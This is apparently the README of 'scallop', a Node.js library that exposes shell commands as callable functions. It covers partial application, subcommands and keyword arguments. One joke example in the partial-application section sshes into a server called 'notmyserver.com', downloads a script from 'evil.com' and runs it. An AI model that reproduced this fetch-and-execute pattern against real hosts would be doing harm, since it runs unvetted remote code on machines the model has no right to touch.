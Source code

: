 <p align="center">
  <a href="https://github.com/bgw/scallop">
    <img src="https://raw.githubusercontent.com/bgw/scallop/master/logo.png"
         width="120px" alt="">
  </a>
</p>

<h1 align="center">Scallop</h1>

<p align="center">
  Shelling out with <code>child_process</code> is so&hellip; drab.
  <br>Relieve the tedium with <code>scallop</code>!
</p>

--------------------------------------------------------------------------------

```sh
$ npm i --save-dev scallop
```

```javascript
const scallop = require('scallop');
const curl = scallop('curl', {silent: true});

curl('http://httpbin.org/user-agent', (err, result) => {
  console.log(JSON.parse(result)['user-agent']); // curl/7.30.0
});
// Of course this is a horribly contrived example. You should use `http.get`.
```

Now everything in `$PATH` has node bindings!

Literal Arguments
-----------------

Anything you pass directly to your wrapper function gets passed through.

```javascript
const mkdir = scallop('mkdir');
mkdir('example_directory');
```

Multiple arguments can be provided.

```javascript
mkdir('-p', 'parent/child');
```

Spaces and the like are automatically escaped.

```javascript
mkdir('Some directory with spaces! Wooo! Rebellion!');
```

Remember that, because this is node, everything is asynchronous, all our calls
will return immediately and execute in parallel. [Libraries like
`async`](https://github.com/caolan/async) or promises are good mechanisms for
organizing this mayhem.

### Argument Expansion

Because `Function.apply` is needlessly ugly, you can simply pass arrays beside
literal arguments.

```javascript
const myFolders = ['folderA', 'folderB', 'folderC'];
mkdir('-p', '-v', myFolders);
// which is the same as
mkdir.apply(null, ['-p', '-v'].concat(myFolders));
// or in ES2015
mkdir('-p', '-v', ...myFolders);
```

You can even have nested lists, and they'll all be expanded upon evaluation.

Partial Application
-------------------

You know, I kinda wish `mkdir` supplied `-p` by default.

```javascript
mkdir = mkdir.partial('-p');
mkdir('another-parent/child');
```

Oh! Look at that! It's okay I guess. I just wish it required **exactly one**
less function call. If only we could apply the partial when creating `mkdir`....

```javascript
const mkdir = scallop('mkdir', '-p');
```

Alright. That looks cool, but kinda limited in use.

```javascript
const ssh = scallop('ssh');
const definitelyMyServer = ssh.partial('notmyserver.com', '-p 1234');
const remoteCurl = definitelyMyServer.partial('curl', '--silent');

remoteCurl('-O', 'http://evil.com/evil_botnet_software.sh');
definitelyMyServer('sh', 'evil_botnet_software.sh');
// Please only use this on PHP websites
```

### Subcommands

Subcommands are a special case of partial application. `git` uses these heavily.
We can define some of the common subcommands for `git` with the
`defineSubcommands` function.

```javascript
const git = scallop('git').defineSubcommands('status', 'add', 'rm', 'clone');
git.clone('https://github.com/bgw/scallop.git', 'scallop');
```

A subcommand can be defined by a `--dashed-argument`, just pass it to
`defineSubcommands`, and the dashes will be stripped and converted to
`camelCase`.

Some programs might use a tree of these subcommands, which can be accomplished
by defining subcommands with and object. Arrays of subcommands can be
intermingled, forming leaves, or falsy values can be provided to prune the tree.

```javascript
const sudo = scallop('sudo');
sudo.defineSubcommands({ls: null, git: ['status', 'add', 'rm'], echo: null});
sudo.git.add('important_file.txt');
```

#### ES2015 Harmony Proxy Syntax

Having to make a call to `defineSubcommands` sucks, and there's no real reason
(except a lack of language support) why the subcommands should ever have to be
explicitly predefined.

The ES2015 adds [object Proxies][]. These allow us to intercept accesses to an
underlying object. If you enable proxies by passing `--harmony-proxies` or
`--harmony` to `node`, then you can use some alternate syntax. There's no
portable way to compile away or polyfill the Proxy API. Eventually this
language feature should be enabled by default in future versions of node.

[object Proxies]: https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/Proxy

```javascript
scallop.ssh['bgw@benjam.info'].git.rm('important_file.txt');
```

Take *that*, ES5!

Callbacks
---------

Because the output of commands is **occasionally useful**, I guess it might be
**moderately interesting** if there was some way to read them. The easiest way
is with a callback.

```javascript
const _s = require('underscore.string');
const ls = scallop('ls', '-1');
ls((err, result) => {
  if (err) {
    throw err; // Oh my god! Something horrible must have happened!
  }
  console.log(_s.strip(result).split('\n'));
});
// ['another_parent', 'example_directory', ... ]
```

**Warning:** All calls resulting in shell execution are asynchronous, so there's
no way to catch errors or control execution flow without a callback.

Keyword Arguments
-----------------

As the last argument (before a callback), you may specify keyword arguments as
an object. These keyword arguments get rewritten as follows:

-   Single letter keys get a single dash prepended to them: `-s`
-   Multi-letter keys get two dashes prepended to them: `--long`
-   Integer values get converted to strings
-   Boolean values trigger some special casing (see below)
-   The value is appended after the key, separated by an equals sign:
    `--key=value`

### Boolean Keyword Arguments

It makes sense to think of the keyword arguments as an "options argument".
Fitting this analogy, keyword arguments with boolean values get processed
differently:

-   When true, the keyword gets one or two dashes prepended to it. No value is
    written out.
-   When false, the entire entry is ignored.

As an example, the object

```javascript
{verbose: false, escape: true, color: false, literal: true, a: true}
```

Would translate into

```
--escape --literal -a
```

### Use with a callback

The callback is **always the last** argument. As a result, the call remains
readable with coffescript or ES2015 arrow function syntax.

```coffeescript
ls = sh 'ls'
ls '-1', all: true, recursive: false, (err, res) ->
  console.log res
```

```js
ls = sh('ls');
ls('-1', {all: true, recursive: false}, (err, res) => {
  console.log(res);
});
```

### "Special" Keyword Arguments

Keys prepended with an _underscore act a bit differently. The following special
arguments are supported

-   `_cwd`: Current working directory
-   `_env`: An object of environment variables
-   `_uid`: The numerical ID or the string username of the user to execute as
-   `_gid`: The numerical ID or the string group of the user to execute as
-   `_encoding`: The encoding of stdout and stderr as a string. [Any encoding
    node supports][] can be passed. If given a falsy value, such as `null`, the
    stream will be treated as binary. Default is `utf8`.
-   `_okCodes`: An array of numbers representing valid exit codes. Defaults to
    `[0]`.

  [Any encoding node supports]: http://nodejs.org/api/stream.html#stream_readable_setencoding_encoding

Even More Stuff
---------------

I'm not done writing yet. But there's plenty more features in there, and many
ideas left to implement!

Portability
-----------

Because we're dealing with platform-specific commands, shelling out on Linux and
OS X will almost certainly be different than on Windows. Adding insult to
injury, I haven't even tested this on Windows. Oh well; it's not like Windows
has a significant market share.

See Also
--------

`scallop` is based on the python module, `sh` by Andrew Moffat. [`sh` is hosted
on GitHub.](http://amoffat.github.io/sh/) I even lifted some examples from his
documentation!
